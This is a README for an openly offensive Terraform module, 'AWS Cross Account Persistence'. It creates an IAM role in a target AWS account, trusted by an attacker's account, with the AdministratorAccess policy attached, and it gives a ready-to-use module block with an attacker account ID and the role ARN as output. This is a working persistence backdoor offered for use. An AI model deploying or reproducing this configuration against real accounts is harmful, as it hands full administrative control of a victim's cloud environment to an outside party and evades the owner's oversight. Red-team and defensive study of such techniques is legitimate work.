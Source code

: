 # AWS Cross Account Persistence

![OffensiveTerraform](https://img.shields.io/badge/hack-success)
![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-blueviolet)
![OffensiveTerraform](https://img.shields.io/badge/aws-important)

Offensive Terraform module which creates an IAM role with trust relationship with attacker's AWS account and attaches managed IAM Policy to an IAM role.

![Attack Diagram](https://raw.githubusercontent.com/offensive-terraform/terraform-aws-cross-account-persistence/master/diagram.jpg)

## Usage
```
module "cross-account-persistence" {
  source  = "offensive-terraform/cross-account-persistence/aws"

  role_name           = "hack-the-planet"
  policy_arn          = "arn:aws:iam::aws:policy/AdministratorAccess"
  attacker_account_id = "000000000000"
}

output "role_arn" {
  value = module.cross-account-persistence.role_arn
}
```
## Author
Module managed by https://github.com/iganbold

